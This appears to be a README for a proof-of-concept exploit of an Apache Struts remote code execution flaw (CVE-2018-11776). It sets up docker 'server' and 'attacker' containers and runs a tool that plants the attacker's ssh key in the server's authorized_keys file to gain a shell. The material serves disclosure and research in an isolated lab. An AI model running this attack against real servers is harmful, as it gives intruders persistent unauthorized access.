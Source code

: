 # Remote code execution in Apache Struts (CVE-2018-11776)

This directory contains a proof-of-concept exploit for a remote code execution vulnerability in [Apache Struts](https://struts.apache.org/). The vulnerability was fixed in versions 2.3.35 and 2.5.17.

To demonstrate the PoC in a safe environment, we will use two docker containers connected by a docker network bridge to simulate two separate computers: the first is the Struts server and the second is the attacker's computer. The Struts server uses Struts version 2.5.16, which contains the vulnerability.

We have tried to make the `Dockerfile`'s for the server and attacker as simple as possible, to make it clear that we have used vanilla [Ubuntu 18.04](http://releases.ubuntu.com/18.04/) with no unusual packages installed.

Because we have Struts running in docker with no graphics, it isn't convenient to pop a calculator. So, instead, we will use the vulnerability to get a shell on the server. The PoC is a little simplistic because it assumes that the server has its ssh port 22 exposed to the public internet. A more realistic attack would probably involve getting the server to connect out to a webserver controlled by the attacker. It would be straightforward to modify this PoC to do that.

## Network setup

Create a docker network bridge, to simulate a network with two separate computers.

```
docker network create -d bridge --subnet 172.16.0.0/16 struts-demo-network
```

## Struts server setup

Build the docker image:

```
cd struts-server
docker build . -t struts-server
```

Start the container:

```
docker run --rm --network struts-demo-network --ip=172.16.0.10 -h struts-server --publish 8080:8080 -i -t struts-server
```

Inside the container, start Struts and sshd. The reason for starting sshd is that we are going to use it to get a shell on the Struts server. We think it is realistic for sshd to be running because it is very widely used by system administrators for remote access.

```
./apache-tomcat-9.0.12/bin/catalina.sh start
sudo service ssh start  # sudo password is "x"
```

At this point, you can check that Struts is running by visiting [http://127.0.0.1:8080/struts2-showcase](http://127.0.0.1:8080/struts2-showcase) in your browser. (We exposed port 8080 on the docker container.)

## Attacker setup

Build the docker image:

```
cd struts-attacker
docker build . -t struts-attacker
```

Start the container:

```
docker run --rm --network struts-demo-network --ip=172.16.0.11 -h struts-attacker -i -t struts-attacker
```

Inside the container, build `copykey.c` and use it to copy the attacker's ssh key into the server's `authorized_keys` file. Then use `ssh` to login.

```
gcc copykey.c utils.c -o copykey
./copykey http://172.16.0.10:8080/struts2-showcase
ssh victim@172.16.0.10
```

We have a shell!

